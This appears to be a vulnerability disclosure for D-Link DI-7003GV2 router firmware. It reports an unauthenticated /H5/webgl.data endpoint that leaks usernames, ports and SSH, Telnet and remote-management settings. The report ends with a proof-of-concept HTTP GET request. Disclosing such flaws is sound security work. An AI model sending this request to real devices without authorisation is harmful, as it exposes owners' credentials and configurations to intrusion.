




# Overview

- Manufacturer's website information：https://www.dlink.com/
- Firmware download address ：http://www.dlink.com.cn/techsupport/download.ashx?file=7828

# Affected version

DI-7003GV2-24.04.18D1 R(68125)

# Vulnerability description

The D-Link DI-7003GV2 firmware version 24.04.18D1 contains an information disclosure vulnerability in the `/H5/webgl.data` endpoint. This unauthenticated interface allows remote attackers to retrieve sensitive device configuration information, including HTTP ports, usernames, SSH and Telnet settings, remote management configurations, and more.
# Vulnerability details

The handling function for `H5/webgl.data` interface is `sub_41F0FC`.

  

`sub_41F0FC` function gets the parameter table from `off_682A00`, reads sensitive information from the device and returns it to the user.

  

  


# Poc

```http
GET /H5/webgl.data HTTP/1.1
Host: 192.168.140.240
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36 Edg/135.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.140.240/relogin.htm?_312223&_t=41205959
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
If-Modified-Since: Tue, 27 Jun 2023 10:03:04 GMT
Connection: keep-alive
```

  
